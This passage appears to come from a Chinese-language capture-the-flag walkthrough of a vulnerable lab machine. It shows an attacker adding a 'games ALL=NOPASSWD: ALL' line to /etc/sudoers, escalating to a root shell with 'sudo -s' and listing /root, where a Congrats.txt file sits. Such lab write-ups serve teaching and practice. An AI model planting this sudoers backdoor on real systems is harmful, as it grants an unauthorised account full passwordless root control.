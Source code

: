 我们有我们的帐户，但我们需要添加`sudo`权限。

返回编辑器，打开`/etc/sudoers`，并将以下行添加到末尾：

```
games ALL=NOPASSWD: ALL
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

回到我们的 SSH 会话，`sudo`再次检查我们的权限。

```
$ sudo -l
User games may run the following commands on this host:
    (root) NOPASSWD: ALL
$ sudo -s
# id
uid=0(root) gid=0(root) groups=0(root)
```

root权限

```
# cd /root      
# pwd
/root
# ls -l
total 16
-rw-r--r--  1 root root  1327 2011-04-16 08:13 Congrats.txt
drwxr-xr-x 12 root root 12288 2011-04-16 07:26 ht-2.0.18
```
